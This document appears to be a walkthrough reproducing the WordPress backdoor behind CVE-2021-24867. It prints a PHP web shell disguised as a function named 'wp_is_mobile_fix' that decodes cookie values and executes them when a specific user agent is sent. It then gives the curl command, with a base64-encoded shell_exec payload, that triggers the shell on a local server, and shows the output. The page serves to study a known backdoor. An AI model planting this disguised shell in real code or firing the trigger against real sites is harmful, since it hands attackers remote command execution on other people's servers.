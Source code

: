 First, create a simple PHP file called _index.php_ containing the backdoor web shell.
```php
<?php
function wp_is_mobile_fix() {
    $is_wp_mobile = ($_SERVER['HTTP_USER_AGENT'] == 'wp_is_mobile');
    $g = $_COOKIE;

  (count($g) == 8 && $is_wp_mobile) ?
  (($qr = $g[33].$g[32]) && ($iv = $qr($g[78].$g[18])) &&
  ($_iv = $qr($g[12].$g[17])) && ($_iv = @$iv($g[10], $_iv($qr($g[53])))) && 
  @$_iv()) : $g;

  return $is_wp_mobile;
}

wp_is_mobile_fix();
?>
```

Then start a simple PHP web server from the command line.

```console
$ cd path/to/index.php
$ php -S 127.0.0.1:8000
```

Use `curl` to send your payload with the correct user agent string and cookie values.

```console
curl -v -A "wp_is_mobile" --cookie "33=base64_decode; 32=; 78=Y3JlYXRlX2Z1bmN0aW9u; 18=; 12=YmFzZTY0X2RlY29kZQ==; 17=; 10=; 53=WldOb2J5QnphR1ZzYkY5bGVHVmpLQ2R3ZDJRbktUcz0=" http://localhost:8000/index.php --output -
```

You should see the current working directory of your _index.php_ script in the output.

```console
$ curl -v -A "wp_is_mobile" --cookie "33=base64_decode; 32=; 78=Y3JlYXRlX2Z1bmN0aW9u; 18=; 12=YmFzZTY0X2RlY29kZQ==; 17=; 10=; 53=WldOb2J5QnphR1ZzYkY5bGVHVmpLQ2R3ZDJRbktUcz0=" http://localhost:8000/index.php --output -
*   Trying ::1:8000...
* connect to ::1 port 8000 failed: Connection refused
*   Trying 127.0.0.1:8000...
* Connected to localhost (127.0.0.1) port 8000 (#0)
> GET /index.php HTTP/1.1
> Host: localhost:8000
> User-Agent: wp_is_mobile
> Accept: */*
> Cookie: 33=base64_decode; 32=; 78=Y3JlYXRlX2Z1bmN0aW9u; 18=; 12=YmFzZTY0X2RlY29kZQ==; 17=; 10=; 53=WldOb2J5QnphR1ZzYkY5bGVHVmpLQ2R3ZDJRbktUcz0=
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Host: localhost:8000
< Date: Wed, 26 Jan 2022 16:07:00 GMT
< Connection: close
< X-Powered-By: PHP/7.4.25
< Content-type: text/html; charset=UTF-8
< 
/tmp
* Closing connection 0

$ 
```

More public information on the vulnerability can be found with the associated CVE: [CVE-2021-24867](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24867).